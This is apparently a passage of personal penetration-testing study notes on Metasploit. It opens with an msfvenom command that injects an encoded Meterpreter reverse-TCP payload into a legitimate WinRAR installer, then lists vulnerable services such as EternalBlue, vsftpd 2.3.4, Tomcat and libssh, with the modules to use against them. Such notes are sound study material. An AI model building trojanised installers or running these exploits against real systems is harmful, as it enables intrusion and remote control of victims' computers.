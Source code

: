   - we can utilize the msfvenom -x option to inject it into an legitimate portable executable (e.g. winrar) (use the -k option also to maintain the functionality!
  - msfvenom -p windows/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=1234 -e x86/shikata_ga_nai -i 10 -f exe -x /home/felix/downlaods/winrar602.exe > /home/felix/winrar_injected.exe
  
  
  ## Automating Metasploit with Resource Scriopts
  - Metasploit resource scripts are a great feature of MSF that allow you to automate repetitive tasks and commands
  - quite similar to batch scripts where you can specify a set of msfconsole commands that you want to execute sequentially
  - skipped this.. read a manual to create resource scripts. :)
  
  
  ## Exploitation (Windows) (MSF)
  ### Exploiting a vulnerable http file server
  - HTTP File Server (HFS) is a web server that is designed for file & document sharing
  - Rejetto HFS is a popular HTTP File Server and Rejetto HFS V2.3 is vulnerable to a remote command execution attack!
  - search for "rejetto"
  
  ### Exploiting MS17-00 SMB Vulnerability (Ethernal Blue)
  - was used in the WannaCry Ransomware Attack!
  - Affects multiple Windows Versions from Windows Vista to 10
  - The Vulnerability exists in SMBv1
  
  ### Exploiting Apache Tomcat
  - Tomcat is a popular and open source Java servlet web server
  - Apache Tomcat Webserver is primarily used to host dynamic websites or web applications developed in java
  - Apache Tomcat V8.5.19 or below is vulnerable to a remote code execution
      - TRY THIS: exploit/multi/http/tomcat_jsp_upload_bypass
  
  ## Linux Exploitation
  
  ### Exploiting a vulnerable FTP Server
  - vsftpd is a FTP server for Unix-Like systems and is the default FTP server for Ubuntu, CentOS and Fedora
  - vsftpd V2.3.4 is vulnerable to a command execution vulnerability
  
  ### Exploiting Samba
  - Samba is the Linux implementation of SMB and allows Windows systems to access Linux shares and devices.
  - Samba V3.5.0 is vulnerable to a remote code execution vulnerability, allowing a malicious client to upload a shared libary to a writeable share, and then cause the server to load and execute it.
  
  ### Exploiting a vulnerable ssh server
  - libssh V0.6.0 - 0.8.0 is vulnerable to an authentication bypass
  - search for libssh
  - show the options and set the spawn_pty to true to spawn an interactive session
  